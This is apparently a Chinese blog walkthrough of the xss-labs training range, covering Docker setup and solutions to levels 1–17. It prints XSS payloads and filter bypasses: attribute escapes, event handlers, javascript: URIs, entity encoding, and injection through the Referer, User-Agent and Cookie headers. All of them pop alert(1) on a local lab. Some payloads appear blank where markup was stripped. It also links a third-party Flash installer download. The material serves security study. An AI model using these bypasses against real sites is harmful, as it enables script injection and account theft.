在搞定了之前的网络拓扑和虚拟化实验室之后，近期我把视线转向了 Web 前端安全领域。作为应用层安全中绕不开的大山，XSS（Cross-Site Scripting，跨站脚本攻击）一直是我想要深入系统学习的板块

为了不再纸上谈兵，我在本地的虚拟机环境里搭建了经典的 `xss-labs` 漏洞靶场。XSS 的本质其实很简单，总结起来就是一句话：**“服务端未对用户输入进行严格过滤，导致恶意数据在前端被浏览器误当作代码执行”**

这里我依旧使用**虚拟机+docker**的方式去部署靶场，具体流程简单概括如下：

如果你不会部署基础的docker环境，那么请参考我的这篇博客：[虚拟机+docker部署靶场](https://blog.csdn.net/zeyun4699/article/details/159887155)

（这里我用的镜像是下图的utrzhegu/xsslabs靶场）：



步骤一：拉取该镜像

```bash
docker pull utrzhegu/xsslabs:0.1
```

步骤二：查看已经下载的镜像

```bash
docker images
```



步骤三：启动镜像，并重命名为xsslabs，将镜像映射在8088端口（这里你也可以根据你自己情况调整）

```bash
docker run -d --name xsslabs -p 8088:80 utrzhegu/xsslabs:0.1
```

浏览器输入虚拟机的IP地址+端口号（发现成功访问靶场🎉）



下次可以输入以下命令启动靶场

```bash
docker start xsslabs
```

也可以像我一样，设置开机自启动

```bash
docker update --restart=always xsslabs
```

成功部署完成之后，接下来我们开始解题

## 第一关（level 1）



漏洞分析：通过观察可以确认，程序将 URL 中的 `name` 参数直接拼接进了 HTML 页面中，这意味着，只要我们构造一段合法的 HTML 标签或 JavaScript 脚本代替 `test`，浏览器在解析 DOM 树时就会被“欺骗”，从而执行我们的恶意代码

先尝试把`test`值改成`aaa`试试

按下`F12`，打开开发者窗口，查看网页前端源码



这种位置是新手最容易理解的 XSS 场景，叫：`HTML 正文回显`

然后测试它会不会把 HTML 当成标签解析，我们输入`<h1>aaa</h1>`



说明 `<h1>` 被浏览器当成 HTML 标签解析了，这很关键

然后再尝试最基础的 XSS Payload

第一关大概率没有过滤，所以可以直接在name后面试：

```html
name=<script>alert(1)</script>
```

发现页面成功弹窗，即为解题成功



漏洞原因：后端直接把用户传入的 name 参数输出到了 HTML 页面中，没有进行 HTML 实体转义，导致浏览器把用户输入解析成了可执行脚本  
  
防御方式：输出到 HTML 页面之前，应当进行 HTML 实体编码，例如将：

```bash
< 转义为 &lt;
> 转义为 &gt;
" 转义为 &quot;
' 转义为 &#x27;
```

这种防御方式我们会在第三关（level3）进行绕过

## 第二关（level2）

我们进入第二关之后，继续沿用第一关的alert弹窗命令，查看有无效果



发现并没有出现弹窗，于是打开`F12`，查看网页源代码



这说明，我们输入的恶意代码不是单纯出现在页面正文里，而是出现在了一个 HTML 标签的属性里面

我们这里的输入的 `<script>` 被包在 `value="..."` 里面，也就是说，它只是输入框的内容，不一定会被浏览器当成真正的脚本标签执行

所以第二关的核心思路是：

```bash
先从 value="..." 里面逃出来
再插入真正的 HTML/JS 代码
```

我们需要先用一个双引号 `"` 把前面的 `value="` 结束掉

例如输入：

```bash
">
```

页面结构就可能变成：

```html
<input value="">
```

这样我们就从属性值里面出来了，然后再接一个脚本：

```html
"><script>alert(1)</script>
```

最终页面就变成了：

```html
<input value=""><script>alert(1)</script>">
```

最终在HTML里执行的源代码如下：



所以我们在搜索框输入：



即可触发弹窗



## 第三关（level3）

继续尝试沿用第二关的闭合思路，输入`"><script>alert(1)</script>`，发现这一关行不通，按下`Ctrl+U`，查看实际的网页源码



浏览器看到：

```javascript
&lt;script&gt;alert(1)&lt;/script&gt;
```

不会把它当成真正的 `<script>` 标签，而是把它当成普通文字显示出来

并且它过滤了 `<`、`>`、`"`

所以我们不能继续用 `<script>` 标签了

这一关的新思路是：

```html
既然不能新建 <script> 标签
那就利用已有的 input 标签，给它添加一个事件属性
比如：
onclick="alert(1)"
```

意思是：当用户点击这个`input`输入框时，执行 `alert(1)`

得知了这个原理，那我们尝试下面这个 payload（这里有一个细节，需要注意上图的源码，这里是单引号闭合的，所以这里也需要输入单引号）

```javascript
' onclick='alert(1)
```

我们输入后，服务器会拼接变成：

```html
<input name="keyword" value='' onclick='alert(1)'>
```

将这个`onclick`的想法输入到搜索框，点击后即可弹窗



Tips：提交后，**记得点击输入框触发**

## 第四关（level4）

我们继续沿用之前第二关（level2）的想法，发现输入`"><script>alert(1)</script>`之后并没有成功，这说明本关过滤了尖括号，因此不能通过新建 `<script>` 标签执行 JavaScript

依旧Ctrl+U查看源码，发现以下几点



但是，我们发现`"`没有被删掉，而这就是第四关（level4）的突破口

我们可以尝试将第三关（level3）的这个 Payload 进行加工（将单引号变成双引号）

```javascript
" onclick="alert(1)
```

提交后，源代码会变成：

```html
<input name=keyword value="" onclick="alert(1)">
```

此时 onclick 成为 input 标签的事件属性，点击输入框即可触发 JavaScript，完成 XSS

## 第五关（level5）

初步尝试沿用第二和第三关的想法，发现行不通（原因如下图的文字说明）



那我们换一种方式，用 `javascript:` 链接

```html
<a href="javascript:alert(1)">点我</a>
```

思路很简单，创建一个超链接，当点击这个链接时，执行 javascript: 后面的代码

所以 Payload 可以写成：

```html
"><a href="javascript:alert(1)">点我</a>
```

为什么这个 Payload 可以绕过？

原始结构是：

```html
<input name=keyword value="你的输入">
```

我们加上制作的超链接之后，代码拼接后变成：

```html
<input name=keyword value="">
<a href=javascript:alert(1)>点我</a>
">
```

拆开看是这样的：

```html
" 
关闭 value 属性

>
关闭 input 标签

<a href=javascript:alert(1)>点我</a>
创建一个超链接，点击后执行 JavaScript
```

提交之后页面上会出现一个“点我”的链接  
你需要**点击这个链接**，才会触发弹窗



点击后，即可成功跳转



## 第六关（level6）

尝试使用第五关的思维，我们输入`"><a href=javascript:alert(1)>点我</a>`，但是Ctrl+U查看源码后，却发现它返回的结果确是`"><a hr_ef=javascript:alert(1)>点我</a>`



从源码的这张图可以判断出（也就是它在过滤关键词 `href`）：

```javascript
< 没有被删
> 没有被删
a 标签没有被删
javascript: 没有被删
alert(1) 没有被删
href 被改成了 hr_ef
```

结合这些，我们发现既然它过滤的是小写的，它会不会只过滤小写 href？

所以我们把`"><a href=javascript:alert(1)>点我</a>`的小写`href`替换成全大写的`HREF`，再带入试试

```html
"><a HREF=javascript:alert(1)>点我</a>
```

惊奇的发现居然出现了我们制作的超链接



点击超链接之后，即可成功弹窗



## 第七关（level7）

我们尝试重复使用第六关的步骤，发现并没有弹出链接，所以我们`Crtl+U`，查看源码后发现图片里的情况



也就是说，它看到危险关键词就直接删除

既然它会删除：`href`，`script`等关键词，那么我尝试双写试试

那我们可以故意把关键词“套娃”写进去，让它删掉中间那一段以后，剩下的刚好又拼成正确关键词

输入以下内容：

```html
"><a hrhrefef="javascrscriptipt:alert(1)">点我</a>
```

输入完成之后，发现出现了我们熟悉的超链接，点击后即可顺利进入下一关



## 第八关（level8）

我们看到这里有一个搜索框，那么第一时间想到的肯定是输入`javascript:alert(1)`看看结果怎么样，点击“添加友情链接”后，发现跳转到了一个错误的URL



查看源码后发现，出现了关键词过滤改写，而且这里是不需要再闭合`input`标签，也不需要重新插入一个`a`标签，而是应该直接控制`href`的值，所以我们尝试使用特殊值，看看能不能绕过

在 HTML 里，浏览器会解析 HTML 实体编码，那尝将期中一个字母转成HTML编码再带入试试（这里我是用的是burp suite自带的转码工具进行转码）



将这个字母`s`转码后的结果（&#x73;）带入到我们之前尝试的语句中可得

```javascript
java&#x73;cript:alert(1)
```

再次点击“友情链接”，即可得到正确结果，进入下一关



## 第九关（level9）

我们显示尝试使用我前一个关卡的思路，输入`java&#x73;cript:alert(1)`，查看源码后发现



先做一个非常简单的测试，在输入框输入：

```bash
http://test.com
```

查看源码后，发现，带有http的语句可以被执行



那就说明，这里的要求输入里必须包含`http://`

那么我们就可以想到，构造既能执行 JavaScript，又能通过合法性判断的 Payload

```javascript
java&#x73;cript:alert(1)//http://test.com
```

最终成功弹窗



`*注`：这里我一开始尝试使用普通的`javascript:alert(1)`，发现还是有关键词匹配的，会将`script`替换成`scr_ipt`，所以这里还是要用转码后的格式

## 第十关（level10）

打开这一关发现啥也没有，查看源码可发现，有3个属性为 hidden 的隐藏 value



虽然页面上没有输入框，但我们可以手动输入参数，判断后端是否会接收 URL 参数

（这一步不是为了攻击，而是为了确认，隐藏 input 的 value 值是否来自 URL 参数）

```bash
&t_link=aaa
&t_history=bbb
&t_sort=ccc
```

将以上内容拼接到网站链接后，再次查看源码，可发现有一个`value`接受了我们输入的测试参数ccc



因为它是`hidden`，所以我们点不到它，也看不到它

但是我们可以通过注入，把它变成普通文本框（要注意这里的palyload需要拼接在我们之前发现的`&t_sort=`后，因为只有这一个才能传入参数）

```javascript
&t_sort=" type="text" onclick="alert(1)
```

这样原本隐藏的输入框就可能变成一个可点击的文本框，你点击它，就触发 `onclick`

最后也是成功触发弹窗



## 第十一关（level11）

这一关我们发现还是依旧啥也没有，所以我们还是`Ctrl+U`打开网页源代码看看



所以这里我们看到的不是普通 URL 参数控制，而是：

```bash
请求头 Referer → 后端读取 → 输出到 hidden input 的 value 里
```

那 Payload 应该怎么构造？

现在注入点是：

```html
<input name="t_ref" value="你的 Referer" type="hidden">
```

所以我们仍然可以用双引号逃逸：

```javascript
" type="text" onclick="alert(1)
```

最终希望它变成：

```html
<input name="t_ref" value="" type="text" onclick="alert(1)" type="hidden">
```

意思是：

```javascript
" 
闭合 value 属性

type="text"
把 hidden 输入框改成普通输入框

onclick="alert(1)
添加点击事件

后面原本的 "
帮我们闭合 onclick 属性
```

然后页面上会出现一个输入框，点击它就弹窗

所以我们的 Payload 就是：

```javascript
Referer: " type="text" onclick="alert(1)
```

接下来会需要用到Burp Suite的截包工具（如果你没有Burp Suite，那么还请前往这篇链接进行安装，[点我前往安装Burp Suite文章](/posts/install_burpsuite/)）

接下来我们使用 Burp Suite 进行截包，并使用 Burp Suite 的浏览器进行操作（这样会更直观）



在新打开的浏览器中，输入你第11关（level11）的靶场网址（你的IP地址会和我的不一样，注意区分）

```bash
http://192.168.153.141:8088/level11.php?keyword=good%20job!
```

按照下图的步骤，在HTTP请求头里添加 `Referer`



随后点击“Forward”放行这个数据包，即可出现搜索框，点击即可弹窗



## 第十二关（level12）

有了上一关的经验，这次我们依旧查看源码，看看网页端写了什么



源码里出现了：

```html
<input name="t_ua" value="浏览器UA内容" type="hidden">
```

这说明后端做了类似这样的事情：

```bash
读取 HTTP 请求头里的 User-Agent
↓
输出到 hidden input 的 value 属性中
```

所以第 12 关的注入点不是 URL 参数，而是：`User-Agent:`这里

那么就很简单了 Payload 就和第 11 关一样，里面，所以还是用双引号闭合

```html
目标是把原来的：
<input name="t_ua" value="你的User-Agent" type="hidden">
变成：
<input name="t_ua" value="" type="text" onclick="alert(1)" type="hidden">
```

这样原本隐藏的输入框会变成普通文本框，点击它就触发 `onclick`

操作步骤还是和第11关一样，这里我就使用文字来进行简单概述一下

```javascript
1. Burp → Proxy → Intercept
2. 打开 Intercept on
3. 浏览器刷新：
   http://192.168.153.141:8088/level12.php
4. Burp 拦截请求
5. 找到 User-Agent 这一行
6. 把它改成：
   User-Agent: " type="text" onclick="alert(1)
7. 点 Forward
8. 回到浏览器，页面应该出现一个小输入框
9. 点击输入框，触发弹窗
```



最后点击“Forward”放行这个数据包，即可出现搜索框，点击即可触发弹窗



## 第十三关（level13）

这次打开页面，发现有一行报错，翻译成中文是

```bash
警告 ：无法修改标头信息 - 标头已由（输出始于 /var/www/html/level13.php:1）发送，位于 /var/www/html/level13.php 第 16 行
```

根据前几关的思路，我们发现这似乎已经形成了一个规律：

```bash
level10:
t_link / t_history / t_sort
↓
隐藏字段
↓
通过 URL 参数控制

level11:
t_ref
↓
ref 很像 Referer
↓
实际来自 Referer 请求头

level12:
t_ua
↓
ua 是 User-Agent 的常见缩写
↓
实际来自 User-Agent 请求头
```

那这里的第十二关，我们通过`Crtl+U`查看源码可发现一个名叫`t_cook`的参数

这是一个强线索，但是需要实验来进行验证

我们首先先使用第十关（level10）的思想，我们直接在浏览器的地址栏输入以下内容

```bash
http://192.168.153.141:8088/level13.php?t_cook=aaa
```

但是再次查看源码后发现并没有传入参数，那么也就说明它大概率不是从`URL GET`参数来的

然后再测试 Cookie，这时用 Burp 拦截请求，在请求头里加：

```bash
Cookie: user=aaa
```



经过上述的步骤，这里也是成功验证了`t_cook`就是`cookie`

在已经确认`Cookie: user=aaa`能控制`t_cook`，再把 Cookie 改成：

```javascript
Cookie: user=" type="text" onclick="alert(1)
```

在点击我们构造的 Payload 点击事件后，即可成功触发XSS弹窗



## 第十四关（level14）

在这一关，我们发现这里的网页源码中访问了一个网站（但截至当前时间节点，该网站似乎已经关站了，所以无奈之下，只能跳过）



结合早期前辈的访问记录，这里我简单说一下这一关的原理和步骤



你可以把它理解成：**图片表面是一张正常图片，但图片的“属性信息”里可以写文字；如果网站把这些文字直接输出到网页，就可能触发 XSS**



也就是说，不是你在地址栏里写 payload，而是把 payload 写进图片的属性里（如上图所示）

这些信息就叫图片元数据，常见类型包括：

```bash
EXIF
IPTC
XMP
```

比如图片属性里可能有：

```bash
标题：xxx
作者：xxx
备注：xxx
版权：xxx
```

比如图片属性里可能有：

```bash
标题：xxx
作者：xxx
备注：xxx
版权：xxx
```

如果我们把这些字段改成：

```html
">
```

那么这个 payload 就被藏进图片里面了

下图红色箭头指向的这些破图标很关键，它说明：

```html
EXIF 字段里的  被浏览器当成了真正的 img 标签解析
```



但现在出现了破图标，说明浏览器真的创建了``元素

然后因为 `src=x` 加载失败，就会触发：

```javascript
onerror=alert(1)
```

也就是下图的弹窗



以上图片出处为：[先知社区](https://xz.aliyun.com/news/1147#toc-12)

**那这个漏洞是怎么产生的？**

假设有一个图片信息查看网站，它会读取图片元数据，然后显示到网页上

正常情况它应该这样显示：

```html
<td>&quot;&gt;&lt;img src=x onerror=alert(1)&gt;</td>
```

这样浏览器只会把它当成普通文字

但如果网站偷懒，直接输出：

```html
<td>"></td>
```

浏览器就会真的解析 `` 标签

因为：

```html

```

里面的 `src=x` 是一个不存在的图片地址，所以图片加载失败，触发 `onerror`，然后执行：

```javascript
alert(1)
```

这就是 EXIF XSS 的本质

## 第十五关（level15）

查看源码后发现，这儿有个陌生的东西`ng-include`

这里需要补充一个概念：`ng-include` 是什么？

可以先简单理解成：

```bash
ng-include = 把另一个页面的内容加载进当前页面
```

比如 Angular 里可以写：

```html
<span ng-include="'test.html'"></span>
```

意思是：把`test.html`的内容加载到这里

可是现在页面没有输入框，也没有明显参数，所以不要急着打 payload

先看源码：



它是不是在等我们通过`URL`参数给`ng-include`传一个页面地址？

常见参数名可能是`src`

所以我们试试在后面拼接：

```bash
src='level1.php'
#注意这里有单引号，因为 ng-include 后面接的是 Angular 表达式，不是普通字符串
#这里的 'level1.php' 就是一个字符串，Angular 知道你要加载这个页面
```

发现居然下面拼接出来了第一关的页面



然后再构造 XSS

既然它可以加载别的页面，那我们可以加载前面已经知道有 XSS 的页面

比如 level1的漏洞是：

```bash
level1.php?name=alert弹窗语句
```

但是我们并不能直接把第一关的`<script>alert(1)</script>`拿来直接使用

因为 level15 是通过 AngularJS 的 `ng-include` 把 level1 的返回内容“动态插入”到当前页面里

动态插入 HTML 时，浏览器/Angular 往往不会执行里面的 `<script>` 标签

结合之前的第十四关（level14），我们可以使用

```html

```

所以第 15 关可以使用以下的代码：

```html
level15.php?src='level1.php?name='
```

输入后，即可成功触发弹窗：



需要注意，这里不能和文件包含漏洞弄混淆，区别如下：

```bash
从思路上，它像文件包含；
从漏洞类型上，它更准确地叫 AngularJS ng-include 导致的前端 XSS
```

## 第十六关（level16）

首先还是依旧`Ctrl+U`查看源码



这个位置其实很像我们在第 1 关测试的：

```html
<h2>test</h2>
```

所以第一反应应该是：

```html
<script>alert(1)</script>
```

但是第 16 关肯定不会这么简单。它会过滤一些东西

再看源码，发现它变成了奇怪的东西，我们的`<script>`标签变成了`&nbsp;`

既然`<script>`标签不行，那么我们尝试前一关的：

```html

```



但是输入之后，依旧是失败的

查看源码后发现：**第 16 关没有把 `<`、`>`、`onerror` 删除，但它把普通空格替换成了 `&nbsp;`**

目前可以推断：

```bash
< 没有被过滤
> 没有被过滤
img 没有被过滤
src 没有被过滤
onerror 没有被过滤
alert 没有被过滤

但是普通空格被替换成了 &nbsp;
```

空格可以用回车来代替绕过，回车的url编码是`%0a`，<>的url编码是，再配合上之前的``标签

```html

```

将此内容进行URL转码



最终可得以下URL编码（有点长）：

```bash
%3c%69%6d%67%0a%73%72%63%3d%78%0a%6f%6e%65%72%72%6f%72%3d%61%6c%65%72%74%28%31%29%3e
```

输入后，即为成功：



## 第十七关（level17）

打开后发现我们这个浏览器貌似不支持Flash插件，所以我们需要安装一个Flash补丁（纯净版本的，无广告，BTW，安装好后，需要依赖Flash插件的4399，7K7K等网页小游戏也能游玩了）

下载链接：[点我前往下载](https://wwbte.lanzn.com/b014xa3ktc)    密码：gsh3

（1）下载好了之后，按照以下步骤完成安装



（2）下图三个勾保持全选，并点击`NEXT`



（3）下图的含义我都标注出来了（我不希望创建快捷方式，所以我值选择第一个）

第一个你也可以选择不打勾（这个独立安装指的是能直接打开本地SWF小游戏用的）



（4）这里直接按照下图，选择NEXT



（5）再然后点击INSTALL，等待进度条跑完即可



（6）最后安装好后，点击`QUIT`退出



配置Edge浏览器（这里用Edge示例，其他浏览器也一样）

（1）打开浏览器的“设置”，搜索“Internet Explorer”选项



按照上图进行操作

（2）按照下图的图片文字来操作



（3）刷新原网页，即可出现



查看源码后，不难发现



`<embed>` 你可以先把它理解成：

```bash
<embed src="要加载的资源地址">
```

它是 HTML 里用来**嵌入外部资源**的标签。以前常见用途是嵌入 Flash、PDF、音频、视频之类的内容

```bash
<embed src="xsf01.swf" width="100%" height="100%">
```

意思就是：

```bash
在当前网页里嵌入 xsf01.swf 这个 Flash 文件
```

`a=b` 有什么用？它的作用是让你发现：

```bash
arg01 和 arg02 被拼进了 embed 的 src 属性里
```

我们当前的 URL 是：

```bash
level17.php?arg01=a&arg02=b
```

源码里变成：

```bash
<embed src=xsf01.swf?a=b width=100% heigth=100%>
```

这说明：

```bash
arg01 的值 a
arg02 的值 b

被拼成了：

xsf01.swf?a=b
```

也就是：

```bash
xsf01.swf?arg01的值=arg02的值
```

所以 `a=b` 本身不是漏洞，它是一个**线索**

因为我们知道了：

```bash
arg02 的值会出现在 HTML 标签的 src 属性里
```

而且源码中 `src` 没有引号：

```bash
<embed src=xsf01.swf?a=b width=100% heigth=100%>
```

如果属性没有引号，浏览器遇到空格就会认为这个属性结束了

比如正常是：

```bash
src=xsf01.swf?a=b
```

如果我们让 `arg02` 变成：

```javascript
b onmouseover=alert(1)
```

那么页面就会变成：

```javascript
<embed src=xsf01.swf?a=b onmouseover=alert(1) width=100% heigth=100%>
```

这时候：

```bash
src=xsf01.swf?a=b
```

就结束了

后面的：

```javascript
onmouseover=alert(1)
```

变成了一个新的事件属性。

鼠标移动到这个嵌入区域上时，就会执行 `alert(1)`

所以最终的payload如下：

```javascript
http://192.168.153.141:8088/level17.php?arg01=a&arg02=b%20onmouseover=alert(1)
```

其中：`%20`= 空格

一句话总结：

embed 是嵌入外部资源的标签；a=b 的作用是暴露 arg01 和 arg02 被拼进了 embed 的 src 属性里。真正的漏洞点是 src 属性没有加引号，导致可以用空格逃出属性并添加事件

最后由于浏览器的内置保护，导致不能执行恶意代码，但是最终是能成功的



可能作者也考虑到了这一点，所以我们点击前往下一关的按钮即可

## 剩余内容正在更新中

**Ciallo～(∠・ω< )⌒☆**
